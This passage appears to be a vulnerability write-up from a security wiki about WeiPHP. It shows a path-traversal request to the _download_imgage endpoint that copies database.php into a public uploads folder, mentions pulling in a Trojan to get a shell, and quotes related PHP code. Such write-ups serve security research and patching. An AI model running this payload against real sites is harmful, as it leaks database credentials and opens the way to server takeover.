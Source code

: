

Here is a picture file about the current time and write it to the folder `/public/uploads/picture/`



Let's first try to control the variable `$picUrl` to write the database configuration file into the picture



```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-5.png)



Check the directory `/public/uploads/picture/` and use notepad to open the written jpg file



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-6.png)



Get the information of the database configuration file. Since this variable is controllable, we can also download the Trojan file through this method, and then getshell by parsing vulnerabilities or other vulnerabilities such as file content.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-7.png)



I don't know what the file name is under the current conditions, so I go back to the code to continue looking for ways to get the file name



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-8.png)



```php
if ($res) {
            $file = array(
                'name' => $picName,
                'type' => 'application/octet-stream',
                'tmp_name' => $picPath,
                'size' => $res,
                'error' => 0
            );

            $File = D('home/Picture');
            $cover_id = $File->addFile($file);
        }
```


